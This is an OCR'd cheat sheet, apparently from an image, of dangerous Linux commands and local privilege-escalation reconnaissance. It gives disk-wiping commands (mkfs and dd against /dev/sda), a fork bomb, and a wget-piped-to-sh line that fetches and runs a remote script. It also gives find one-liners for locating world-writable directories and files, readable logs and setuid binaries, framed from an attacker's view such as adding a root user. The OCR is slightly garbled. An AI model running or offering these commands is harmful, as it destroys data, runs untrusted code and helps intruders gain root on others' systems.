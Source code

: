 mkfs.ext3 /dev/sda
Reformat the device mentioned, making recovery of files hard.		
dd if=/dev/zero of=/dev/sda bs=1M
Overwrite disk /dev/sda with zeros
Execute a remote script

wget http://server/file.sh -O- | sh
This command forces the download of a file and immediately its execution, can be exploited easily using or reverse shit		
Fork Bomb
:(){:|:&};:


The [in]famous "fork bomb". This command will cause your system to run a large number of processes, until it "hangs". This can often lead to data loss (e.g. if the user brutally reboots, or the OOM killer kills a process with unsaved work). If left alone for enough time a system can eventually recover from a fork bomb.


Stolen from: http://incolumitas.com/wp-content/uploads/2012/12/blackhats_view.pdf
World 
writable 
directories


Find word writable folders outside your home directory. It would be a tremendous success if we could write, say to /etc. So we could add configuration files and therefore pretty sure execute code as root, since many daemons read a specific number of primary and secondary configuration files, whereas the secondary ones are often not created yet. If the superusers home (/root) would be writable, we could create shell startup files that doesn't exist yet: .profile, 
.bash_profile, .bashrc...
find / \( -wholename 
'/home/homedir/*' -prune \) -o \
( -type d -perm -0002 \) -exec 
ls -ld '{}' ';' 2>/dev/null


World 
writable files
What if /etc/passwd would be writable? Yeah, we just could add another root user and we would have won! Whereas the foregoing scenario is just too good to be 
true, it really makes sense to search for world writable files outside your own territory (= your home directory).
find / \( -wholename 
'/home/homedir/*' -prune -o 
-wholename '/proc/*' -prune \) 
-o \( -type f -perm -0002 \) 
-exec ls -l '{}' ';' 2>/dev/null
Logfiles
Sometimes a security unaware administrator chmods a sensitive log file, because he couldn't view it and therefore leaks potentially sensitive data such as 
passwords or other important information.
find /var/log -type f -perm 
-0004 2>/dev/null
Setuid / setgid files
We already examined fully why setuid and setgid files are worth to be double checked. Such a file owned by root and susceptible for attacks is a big weakness.
find / \( -type f -or -type d \)
-perm -6000 2>/dev/null



